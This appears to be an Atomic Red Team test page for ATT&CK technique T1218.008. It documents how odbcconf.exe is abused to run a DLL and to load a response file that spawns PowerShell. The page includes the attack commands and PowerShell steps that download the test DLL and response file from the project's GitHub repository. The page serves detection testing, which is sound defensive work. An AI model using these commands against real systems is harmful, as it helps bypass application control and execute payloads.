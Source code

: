 # T1218.008 - Signed Binary Proxy Execution: Odbcconf

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/008)

<blockquote>Adversaries may abuse odbcconf.exe to proxy execution of malicious payloads. Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.(Citation: Microsoft odbcconf.exe) The Odbcconf.exe binary may be digitally signed by Microsoft.

Adversaries may abuse odbcconf.exe to bypass application control solutions that do not account for its potential abuse. Similar to [Regsvr32](https://attack.mitre.org/techniques/T1218/010), odbcconf.exe has a <code>REGSVR</code> flag that can be misused to execute DLLs (ex: <code>odbcconf.exe /S /A &lbrace;REGSVR "C:\Users\Public\file.dll"&rbrace;</code>). (Citation: LOLBAS Odbcconf)(Citation: TrendMicro Squiblydoo Aug 2017)(Citation: TrendMicro Cobalt Group Nov 2017)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL](#atomic-test-1---odbcconfexe---execute-arbitrary-dll)

- [Atomic Test #2 - Odbcconf.exe - Load Response File](#atomic-test-2---odbcconfexe---load-response-file)

<br/>

## Atomic Test #1 - Odbcconf.exe - Execute Arbitrary DLL

Execute arbitrary DLL file stored locally.

**Supported Platforms:** Windows

**auto_generated_guid:** 2430498b-06c0-4b92-a448-8ad263c388e2

#### Inputs:

| Name        | Description    | Type | Default Value                                                       |
| ----------- | -------------- | ---- | ------------------------------------------------------------------- |
| dll_payload | DLL to execute | path | PathToAtomicsFolder&#92;T1218.008&#92;src&#92;Win32&#92;T1218-2.dll |

#### Attack Commands: Run with `command_prompt`!

```cmd
odbcconf.exe /S /A {REGSVR "#{dll_payload}"}
```

#### Dependencies: Run with `powershell`!

##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```

<br/>
<br/>

## Atomic Test #2 - Odbcconf.exe - Load Response File

Execute arbitrary response file that will spawn PowerShell.exe.
Source files: https://github.com/woanware/application-restriction-bypasses

**Supported Platforms:** Windows

**auto_generated_guid:** 331ce274-f9c9-440b-9f8c-a1006e1fce0b

#### Inputs:

| Name          | Description                | Type   | Default Value                                  |
| ------------- | -------------------------- | ------ | ---------------------------------------------- |
| rsp_file_name | Response file name to load | string | T1218.008.rsp                                  |
| rsp_file_path | Response file path         | string | PathToAtomicsFolder&#92;T1218.008&#92;bin&#92; |

#### Attack Commands: Run with `command_prompt`!

```cmd
cd "#{rsp_file_path}"
odbcconf.exe -f "#{rsp_file_name}"
```

#### Dependencies: Run with `powershell`!

##### Description: T1218.008.rsp must exist on disk at specified location (#{rsp_file_path}#{rsp_file_name})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{rsp_file_path}#{rsp_file_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/T1218.008.rsp" -OutFile "#{rsp_file_path}#{rsp_file_name}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.008/bin/o.dll" -OutFile "#{rsp_file_path}\o.dll"
```

<br/>
